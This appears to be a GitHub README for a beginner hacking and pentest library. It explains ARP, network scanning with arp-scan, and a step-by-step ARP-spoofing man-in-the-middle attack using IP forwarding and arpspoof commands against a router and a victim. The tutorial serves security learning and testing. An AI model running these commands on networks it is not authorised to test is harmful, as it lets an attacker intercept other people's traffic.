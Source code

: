# Introduction to Hacking Library

The goal of this library is to create an archive of useful tools and how to use them, mostly for:

- Hacking
- Pentests 
- Security

Remember, this is only a guide, use the knowledge here wisely and at your own risk.

Have fun!

# Analysis Tools 

## ARP

The ARP protocol (Address Resolution Protocol) associates every MAC address with an IP address in the local network. The way this works is with a broadcast in the local network, asking every host about their pairs IP/MAC. Every time a broadcast occurs the host sends his own pair IP/MAC besides asking other hosts their pairs, so it can be saved into a cache in every machine.

You can check the cache in your own machine with:

```console
 arp -a
```

Using ARP protocol you can either scan your local network to discover hosts, revealing their MAC addresses and internet adapter manufacturer:

```console
 sudo arp-scan --interface=eth0 --localnet
```

or try to guess the OS of the hosts with:

```console
 sudo arp-fingerprint -l
```

# Attack Tools

## ARP Spoofing

The objective of this attack is to add/replace some entries in the ARP table making the router believe that the attacker is in reality the victim and making the victim believe that the attacker is the router.

![ARP Spoofing Image](/img/ARP%20Spoofing.png)

### Enabling fowarding:

First you need to enable fowarding of packets so the victim doesn't know that something happened.

- For temporary fowarding (this will disable fowarding when the machine is rebooted):
```console
 sudo sysctl -w net.ipv4.ip_forward=1
```
or 
```console
 sudo echo 1 > /proc/sys/net/ipv4/ip_forward
```

- For permanent fowarding:
```console
 sudo nano /etc/sysctl.conf
```
then find the line:
```
#Uncomment the next line to enable packet forwarding for IPv4
#net.ipv4.ip_forward=1
```
and delete the "#" in the second line:
```
#Uncomment the next line to enable packet forwarding for IPv4
net.ipv4.ip_forward=1
```
then

> Ctrl o

> Enter

> Ctrl x

and finally run this to apply the changes:

```console
 sudo sysctl -p /etc/sysctl.conf
```

### Making a man in the middle with Arpspoof:

To make this we will use this command two times:

```console
 sudo arpspoof -i {NETWORK_INTERFACE} -t {TARGET_IP} {IP_YOU_WILL_BE_PRETENDING_TO_BE}
```

- First to make the router think that our machine is the victim:

```console
 sudo arpspoof -i {NETWORK_INTERFACE} -t {ROUTER_IP} {VICTIM_IP}
```

Example:

```console
 sudo arpspoof -i eth0 -t 192.168.0.1 192.168.0.104
```

- Then we make the victim think that our machine is the router:

```console
 sudo arpspoof -i {NETWORK_INTERFACE} -t {VICTIM_IP} {ROUTER_IP}
```

Example:

```console
 sudo arpspoof -i eth0 -t 192.168.0.104 192.168.0.1
```

and with this we have a man in the middle set.